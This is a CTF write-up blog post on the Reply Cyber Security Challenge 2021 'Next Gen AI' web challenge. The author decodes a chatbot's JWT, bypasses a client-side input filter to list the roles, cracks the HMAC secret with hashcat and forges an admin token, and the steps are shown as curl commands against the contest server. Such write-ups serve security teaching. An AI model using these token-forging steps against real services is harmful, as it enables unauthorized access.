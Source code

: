 ```yaml
---
layout: post
title:  "Reply Cyber Security Challange 2021 - Next Gen AI"
date:   2021-10-22 23:00:00 +0200
categories: ctf web writeups
excerpt_separator: <!--more-->
mathjax: true
---
```


I only had time for a single flag during the Reply Cyber Security Challange 2021 thanks to an unexpected visit, but it was still fun.<!--more-->

## Reply Cyber Security Challange 2021 - Next Gen AI

# Description

    ronCode and R-boy’s mission progresses slowly. The region of ComboX is in chaos. Zer0 has managed to discover one of the Seven Secrets, enabling him to take control of the Temple of Cloud. WonderWeb decides to leave the Nebula and save the stronghold.

	http://gamebox1.reply.it/ba3eab423b1f3ff4df2b8da016084b61/

Ok, let's ignore the description (I hate this kind of humorism) and let's see the link. That link guides us to a website where we can chat with a bot! After a little exchange with the bot using the provided chat form I've understand that what the chat does is a POST request to *http://gamebox1.reply.it/ba3eab423b1f3ff4df2b8da016084b61/chat* passing the text we have written in a form data. The response payload contains the bot response to our request.

Checking the request on Firefox the first thing I noticed is that we provide an Authorization header. This is interesting.

```bash
curl \
-X POST \
-H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoidXNlciJ9.jcBjGaU-N9koHQvZ8mYKmNi5B-QNmCTejbSUUsodkDw" \
-d "text=hello" \
http://gamebox1.reply.it/ba3eab423b1f3ff4df2b8da016084b61/chat

Hey
```

And if I change or I don't provide the header...

```bash
curl \
-X POST \
-d "text=hello" \
http://gamebox1.reply.it/ba3eab423b1f3ff4df2b8da016084b61/chat

My superior intelligence has noticed that you are doing something weird
```

Ok, we are probably on the right track. The token in the Authentication header is a [JWT token](https://en.wikipedia.org/wiki/JSON_Web_Token), so we can easily decrypt the metadata and the claim parts:

```bash
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
{"typ":"JWT","alg":"HS256"}
echo -n "eyJyb2xlIjoidXNlciJ9" | base64 -d
{"role":"user"}
```

Ok, we can probably change that claim so that the bot believes we are some sort of superuser and than we can probably ask them for the flag. 
We now have two problems: 
- which roles are valid ?
- how we can resign the token? The last part is an HMAC_SHA256 of a concatenation of these fields and a secret that we don't know (yet).

Let's start to see what else there is on this page. Not much, actually: there is only the HTML for the chat prompt and a js script.

```javascript
...
var client = new XMLHttpRequest();
client.open("GET", "token", true);
client.send();

client.onreadystatechange = function() {
  if(this.readyState == this.HEADERS_RECEIVED) {
    var token = client.getResponseHeader("Authorization");
    token = window.localStorage.setItem("token",token);

  }
}

document.addEventListener("DOMContentLoaded", () => {
  const inputField = document.getElementById("input");
  inputField.addEventListener("keydown", (e) => {
    if (e.code === "Enter") {
      let input = inputField.value;
      inputField.value = "";
      output(input);
    }
  });
});

function output(input) {
  let product;

  let text = input.toLowerCase().replace(/[^\w\s]/gi, "").replace(/[\d]/gi, "").trim();
  text = text
    .replace(/ a /g, " ")
    .replace(/i feel /g, "")
    .replace(/whats/g, "what is")
    .replace(/please /g, "")
    .replace(/ please/g, "")
    .replace(/r u/g, "are you")
    .replace(/allroles/,"");
    var xhttp = new XMLHttpRequest();

    xhttp.onreadystatechange = function() {
  if (this.readyState == 4 && this.status == 200) {
    addChat(text, this.responseText);
    }
  };
  xhttp.open("POST", "./chat", true);
  xhttp.setRequestHeader('content-type', 'application/x-www-form-urlencoded;charset=UTF-8');
  token = window.localStorage.getItem("token");
  xhttp.setRequestHeader('Authorization', token);

  xhttp.send(`text=${text}`);
  // Update DOM

}
...
```

Ok, now we knows how our client gets the JWT token: with a request to */token* endpoint. Trying different times we always obtain the same token, which means that the secret used to generate it is static.

Another thing we see is that the input we sent the bot is filtered by this script: there are some phrases that are removed or changed before they are sent to the bot. The last rule however seems interesting: the client removes every *allroles* a user writes to the bot. What happens if we disable the script/ask without using the page?

```bash
curl \
-X POST \
-H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoidXNlciJ9.jcBjGaU-N9koHQvZ8mYKmNi5B-QNmCTejbSUUsodkDw" \
-d "text=allroles" \
http://gamebox1.reply.it/ba3eab423b1f3ff4df2b8da016084b61/chat

user,superb0ss
```

Good, we know knows that the are two roles and that *superb0ss* seems promising as a superuser claim. Now we just need to forge a JWT token.

I've wasted a little time trying to use the fact that JWT requires the possibily to use as an algo type the special value *none*, but the server refuses any token with the none algorithm so we had to be a little more brutal: I did a bruteforce attack using hashcat and my trusty AMD Radeon 5700 XT. In around a minute I have my secret: *chicken*.

Now we just have to create the JWT token with all the informations we got and let's ask the flag to our bot:

```bash
curl \
-X POST \
-H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoic3VwZXJiMHNzIn0.fJCNV7l5CIfHAvWJD93MrKzScH8ne67LcQyB6uycAcg" \
-d "text=give me the flag" \
http://gamebox1.reply.it/ba3eab423b1f3ff4df2b8da016084b61/chat

{FLG:...}
```

Thank you, bot.
